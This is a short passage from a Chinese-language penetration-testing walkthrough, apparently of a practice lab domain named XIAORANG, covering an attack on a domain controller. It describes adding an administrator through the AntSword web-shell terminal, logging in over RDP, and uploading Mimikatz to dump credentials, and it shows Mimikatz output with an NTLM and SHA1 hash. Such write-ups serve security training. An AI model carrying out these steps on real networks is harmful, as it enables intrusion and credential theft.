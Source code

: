 [![](assets/1706496403-217025c2339561dceec5c6a0e0fc8c3a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240127121443-9930ca4e-bcca-1.png)

## 攻击域控（ACL Admin）

使用蚁剑虚拟终端写入管理员用户

RDP 登录一下

### 信息搜集

上传 Mimikatz 进行密码搜集

[![](assets/1706496403-114ef76e388be62c750203ce0e32a1c6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240127121449-9cad80e0-bcca-1.png)

发现一个服务账户和普通用户

```plain
msv :   
     [00000003] Primary
     * Username : WIN-HAUWOLAO$
     * Domain   : XIAORANG
     * NTLM     : 818d5422a636903a4af503ae49663f57
     * SHA1     : d42271bb4d2c9194002f67e5ff296c018d7f565e
    tspkg : 
Authentication Id : 0 ; 84434 (00000000:000149d2)
Session           : Service from 0
User Name         : chenglei
Domain            : XIAORANG
Logon Server      : WIN-DC
Logon Time        : 2024/1/27 9:45:22
```